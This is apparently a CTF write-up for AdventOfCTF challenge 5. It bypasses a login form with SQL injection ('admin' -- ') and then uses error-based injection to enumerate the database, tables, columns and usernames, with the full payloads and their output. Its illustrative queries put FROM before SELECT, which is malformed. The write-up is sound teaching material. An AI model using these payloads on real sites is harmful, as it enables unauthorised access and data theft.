 +++
author = "Maik de Kruif"
title = "Challenge 5 - AdventOfCTF"
date = 2020-12-05T08:57:31+01:00
description = "A writeup for challenge 5 of AdventOfCTF."
cover = "img/adventofctf/080b5d5fcaf13167d2e7e8871fdc8ded.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 500

## Description

Again a login form stands in your way. What powerful 'hacker' tool will help you proceed?

Visit <https://05.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website, we're, yet again, greeted with a login form. As the last few challenges used javascript I immediately opened the devtools to have a look at the sources. But, no javascript! This time it looks like the form is actually submitted. Below the form there is also some text: "A classic, with a twist.". When talking about forms, a classic exploit is SQL Injection. So let's try that.

### SQL Injection

My first try was to submit a quote `'` as the username and some garbage password. This is a common check for SQLi and if it works it throws an error:

```text
Error description: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sd'' at line 1
```

But how does this work in the first place?

#### Background

When a login form on a website is submitted, the website often connects to a database to check the login credentials. On most website this database is a SQL database.

Here's an example of a query to check login credentials:

```sql
FROM `users` SELECT * WHERE `username`='' AND `password`=''
```

_Note: the backticks (`\``) mean the content of it is a column in the database._

The username and password values are inserted in this query and if there is a result, the database will return it.

#### Vulnerability

Now that we know how it works, we can try to exploit it. Take my first input for example (`'`) and see what the resulting query would be.

```sql
FROM `users` SELECT * WHERE `username`=''' AND `password`='garbage'
```

The query becomes invalid as there is an unterminated string. So, how do we turn this query into one that logs us in as the admin?

## Solution

Firstly, I tried to use `' OR 1=1 -- ` as the username and, again, some garbage as the password. However, it didn't work. It didn't even return an error. So I guess this is where "A classic, with a twist." comes in. Next, I tried to just use `admin` as the username and end the query after it by inserting a comment (this is `--` in sql). The resulting input would become `admin' -- ` for the username, the password doesn't matter.

The resulting query would be this:

```sql
FROM `users` SELECT * WHERE `username`='admin' -- ' AND `password`='garbage'
```

As we can see, it now only checks the username. I submitted the form and, I got the flag! It is `NOVI{th3_classics_with_a_7wis7}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#5-6).

## EDIT

As [@credmp](https://twitter.com/credmp) correctly pointed out, this only works if you can guess the username. If you can't, you'll have to get it first. I'll explain how to do that here.

### Getting the database

As we can see the error on the page itself, we can use a query to give a result inside the error. For instance, to get the database I used the following input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `. This results into the following query:

```sql
FROM `users` SELECT * WHERE `username`='' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x) as y) -- ' AND `password`=''
```

After submitting the form it gives us the following error:

```text
Error description: Duplicate entry 'testdb:1' for key 'group_key'
```

#### How does this work?

Firstly, I'll format the query for you:

```sql
FROM `users`
SELECT *
WHERE `username`='' AND (
  SELECT 1 FROM (
    SELECT COUNT(*), CONCAT(
      (
        SELECT database()
      ),
      0x3a,
      FLOOR(RAND(0)*2)
    ) AS x
    FROM information_schema.tables GROUP BY x
  ) AS y) -- ' AND `password`=''
```

Now let me explain this query.

We start with an `AND` to get another value, which is a nested SQL query. This query selects `1`, this is just because we actually need a value. Now we get to the important bit:

```sql
SELECT COUNT(*), CONCAT(
  (
    SELECT database()
  ),
  0x3a,
  FLOOR(RAND(0)*2)
) AS x
FROM information_schema.tables GROUP BY x
```

Here, we select `COUNT(*)` and a string `CONCAT()` with the alias `x`. This `CONCAT()` contains the SQL query we actually want to execute. I can, however, only return one row. The `CONCAT()` also contains `0x3a` which is ASCII for a `:` character so we know where the value we want ends and `FLOOR(RAND(0)*2)`. The purpose of it is to get a duplicate entry error in the `GROUP BY` as it will result in the following values:

```sql
> SELECT FLOOR(RAND(0)*2)x FROM information_schema.tables;
+---+
| x |
+---+
| 0 |
| 1 |
| 1 | <-- The error will occur here.
| 0 |
| 1 |
| 1 |
 ...
```

The error really occurs because of a bug in MySQL. The `COUNT(*)` and `GROUP BY` should give multiple rows as the output, however, MySQL throws an error.

The `FROM` in this query can be any table with three or more rows. `information_schema.tables` is just a common one.

Now we know the name of the database (`testdb`), we can get the tables in it.

### Getting the tables

We can only get the tables one by one (as I explained above) so we can use the following sub-query:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1
```

Converted to an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

_Note: to get next table, just edit the `LIMIT` to `1,1`, `2,1` and so on_

Which returns:

```text
Error description: Duplicate entry 'users:1' for key 'group_key'
```

Now that we know the table (`users`), we can get it's columns

### Getting the columns

A sub-query for columns could be the following:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1
```

Which converts to this input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

Which gives us (with other `LIMIT` as well):

```text
Error description: Duplicate entry 'USER:1' for key 'group_key'
Error description: Duplicate entry 'CURRENT_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'TOTAL_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'username:1' for key 'group_key'
Error description: Duplicate entry 'password:1' for key 'group_key'
```

The first three we can just ignore as they are default metrics from MySQL. So our resulting columns would be `username` and `password`

### Getting its contents

Because we only care for the username, we can discard the password.

A simple `SELECT` query for the username would be:

```sql
SELECT username from users limit 0,1
```

Turing this into an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT username from users limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

We get:

```text
Error description: Duplicate entry 'nottheuser:1' for key 'group_key'
Error description: Duplicate entry 'admin:1' for key 'group_key'
```

Which means our users are `nottheuser` and `admin`.
